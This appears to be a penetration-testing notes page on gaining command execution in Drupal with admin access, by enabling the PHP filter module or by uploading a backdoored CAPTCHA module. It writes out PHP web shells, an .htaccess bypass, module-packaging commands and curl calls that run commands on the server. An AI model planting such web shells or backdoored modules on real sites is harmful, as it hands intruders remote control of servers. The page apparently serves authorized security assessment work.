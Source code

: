 ```yaml
---
icon: drupal
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Drupal

## Abusing Modules

### PHP Filter Module

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

<figure><img src="../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content > Add content and create a `Basic page`.

<figure><img src="../../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

We can now create a page with a malicious PHP snippet such as the one below. We named the parameter with an md5 hash instead of the common `cmd` to get in the practice of not potentially leaving a door open to an attacker during our assessment. If we used the standard `system($_GET['cmd']);` we open up ourselves up to a "drive-by" attacker potentially coming across our web shell.

The `MD5` hash representation can originate from any hashed command or string that isn't easily guessable and is not present in any dictionary wordlists used for directory brute-forcing.

{% code title="PHP Web Shell" lineNumbers="true" %}
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

We also want to make sure to set `Text format` drop-down to `PHP code`. Once saved, we can either request execute commands in the browser by appending `?dcfdd5e021a869fcc6dfaef8bf31377e=id` to the end of the URL to run the `id` command or use `cURL` on the command line. From here, we could use a bash one-liner to obtain reverse shell access.

{% code title="Command" %}
```bash
curl -s http://drupal.acme.com/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
{% endcode %}

{% code title="Output" %}
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

{% hint style="info" %}
## > Version 8

From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.
{% endhint %}

### Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the [drupal.org](https://new.drupal.org/home) website.

Pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz). Download the archive and extract its contents.

{% code title="Download Module" %}
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```
{% endcode %}

{% code title="Decompress Module Archive" %}
```bash
tar xvf captcha-8.x-1.2.tar.gz
```
{% endcode %}

Create a PHP web shell with the contents:

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

Next, we need to create a `.htaccess` file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the `/modules` folder.

{% code title=".htaccess" %}
```xml
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
{% endcode %}

The configuration above will apply rules for the `/` folder when we request a file in `/modules`. Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.acme.com/admin/modules/install`. Browse to the backdoored Captcha archive and click `Install`.

Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.

```bash
curl -s drupal.acme.com/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
